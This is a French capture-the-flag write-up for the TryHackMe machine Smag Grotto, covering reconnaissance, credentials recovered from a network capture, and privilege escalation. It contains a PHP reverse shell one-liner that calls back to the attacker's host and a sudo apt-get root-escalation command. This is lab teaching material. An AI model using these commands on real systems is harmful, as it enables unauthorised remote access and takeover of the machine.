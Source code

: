 ```yaml
---
title: Smag Grotto
slug: smag-grotto
date: 2022-01-29T09:00:00+01:00
image: https://azlinux.fr/uploads/9bb0d72deccee46be9ea72cbdf51f956.webp
categories:
    - TryHackMe
    - Capture the flag
--- 
```


Voici la solution pour la machine Smag Grotto sur TryHackMe. Tout d'abord, nous allons lancer un scan pour voir quels ports sont ouverts sur la machine.

```bash
nmpa -A 10.10.150.39
```

Il y a deux ports ouverts, dont le serveur web qui nous intéresse et voici la page d'accueil :

![](https://azlinux.fr/uploads/2a459b3460d74ed70d4351f929ae947b.webp)

Comme nous ne trouvons rien de pertinent sur la page d'accueil, nous utilisons Nikto pour essayer de trouver une page cachée et ainsi nous trouvons un répertoire /mail et voici le contenu de la page :

```bash
nikto -h http://10.10.150.39
```

![](https://azlinux.fr/uploads/32fa1b468c377e46afa0f1addbd230d1.webp)

Nous arrivons sur une page contenant une liste d'emails où le premier email nous fournit un fichier contenant une trace réseau et avec Wireshark nous trouvons un nom d'utilisateur et un mot de passe

![](https://azlinux.fr/uploads/c15333a8e644c6d588a205882bea0818.webp)

Pour pouvoir se connecter à cette page d'administration, nous devons modifier le fichier hosts avec l'adresse IP pointant vers le nom de domaine development.smag.thm trouvé avec cette commande :

```bash
gobuster vhost -u http://10.10.150.39 -w /usr/share/worldlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

![](https://azlinux.fr/uploads/fd5c4289be54992f0d031b06280f33f2.webp) ![](https://azlinux.fr/uploads/5822c98a64b962d68f727e31e4f29616.webp)

Ainsi, après s'être connecté, nous avons accès à une interface pour exécuter des commandes sur la machine. Nous commençons par exécuter Pwncat puis nous recherchons un Reverse Shell sur [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) afin que la cible se connecte à notre machine pour obtenir un shell.

```bash
pwncat-cs -lp 1234
```

```bash
php -r '$sock=fsockopen("10.8.74.196",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![](https://azlinux.fr/uploads/036cf2a4a1171e42f47156c78a8a6477.webp)

Ensuite, nous découvrons qu'une commande est exécutée toutes les minutes. Nous pouvons donc l'exploiter et nous connecter en tant que l'utilisateur jake.

```bash
ssh-keygen -o
```

```bash
ssh -i /home/baptiste/id_rsa jake@10.10.150.39
```

Lorsque nous avons récupéré le flag user nous voyons que le binaire apt-get est exploitable donc nous trouvons sur le site [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) la commande pour devenir super utilisateur.

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
```

![](https://azlinux.fr/uploads/06a506918534221a33053234c97a46c2.webp)
